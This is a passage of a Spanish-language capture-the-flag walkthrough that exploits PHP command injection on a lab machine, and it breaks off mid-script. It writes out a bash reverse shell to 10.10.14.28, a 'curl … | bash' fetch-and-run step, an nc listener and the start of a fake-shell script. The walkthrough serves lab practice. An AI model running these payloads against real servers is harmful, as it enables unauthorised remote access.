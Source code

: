 Funciona... Intentamos ponerle codigo **PHP**

```php
<?php system("whoami"); ?>
```

y tambien funciona...

Aqui decidimos crear una reverse shell para conectarnos al servidor.## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con una pagina html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.28/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. En la web, le damos un curl a nuestra maquina

    ```php
    <?php system("curl 10.10.14.28"); ?>
    ```


Aqui vemos el codigo fuente del index.html creado. La idea aqui seria interpretar el codigo.

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos la reverse shell 

    ```php
    <?php system("curl 10.10.14.28 | bash"); ?>
    ```

La coneccion se entabla pero el servidor nos expulsa directamente.

### Creamos una FakeShell {-}

En el directorio exploits creamos un fichero 
```bash
 fakeShell.sh 
```
 que contiene

```bash
#!/bin/bash

function ctrl_c(){
    echo -e "\n\n[!] Saliendo...\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

# Variables globales
main_url="http://10.10.10.27/admin.php"

while true; do
```